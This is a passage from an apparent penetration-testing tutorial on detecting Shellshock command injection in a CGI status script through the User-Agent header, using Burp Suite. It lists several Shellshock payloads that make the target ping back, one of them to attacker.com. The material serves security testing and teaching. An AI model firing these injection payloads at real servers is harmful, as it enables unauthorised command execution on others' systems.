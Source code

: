 To get such information, the status script needs to communicate with the operating system. There is a chance that it is using bash for that, as bash is the default shell for many Unix-based systems and the `User-Agent` header becomes an environment variable when CGI scripts are processed. To test whether there is actually a command injection, you need to test different versions of the injection. Let's say that you want the target server to ping you back to verify that it is executing commands. Here are some examples using a generic target address. Notice the use of spaces and delimiters:

```

() { :;}; ping -c 1 192.168.1.1

() { :;}; /bin/ping -c 1 192.168.1.1

() { :;}; bash -c "ping -c 1 192.168.1.1"

() { :;}; /bin/bash -c "ping -c 1 attacker.com"

() { :;}; /bin/sh -c "ping -c 1 192.168.1.1"

```

As part of the testing, you send the request to Burp Suite's Repeater and submit only the `() { :;};` empty function in the `User-Agent` header and get the same valid response as with no injection:

![](img/00120.jpeg)

If you try to inject commands such as `uname`, `id`, or a single `ping`, you get an error. This means that the header is actually being processed, and you just need to find the right way to send the commands:

![](img/00121.jpeg)

